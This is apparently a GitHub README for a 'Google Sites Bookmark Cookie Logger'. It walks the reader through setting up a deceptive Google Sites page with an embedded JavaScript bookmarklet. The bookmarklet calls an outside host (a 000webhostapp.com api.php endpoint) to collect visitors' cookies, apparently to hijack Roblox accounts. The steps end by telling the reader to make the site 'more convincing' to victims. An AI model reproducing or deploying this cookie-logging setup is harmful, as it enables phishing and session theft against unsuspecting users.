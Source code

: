 # Google-Bookmark-Cookie-Logger
Google Sites Bookmark Cookie Logger Method

1.Go to sites.google.com and make a new site

2.Go to <embed> and embed code

3. Paste the code from down below in

4.Delete PasteJavaHere and paste your own Javascript 
(dont have a javascript?, go to #javascript click on the site and make one)

5. Delete the "" and replace with '' like this below
"xJavascript:$.get("//robloxclothingbeta.000webhostapp.com/api.php?id=123456")" to "xJavascript:$.get('//robloxclothingbeta.000webhostapp.com/api.php?id=123456')"

6. Hit ok design your site to make it more convincing, upload site and you are done!
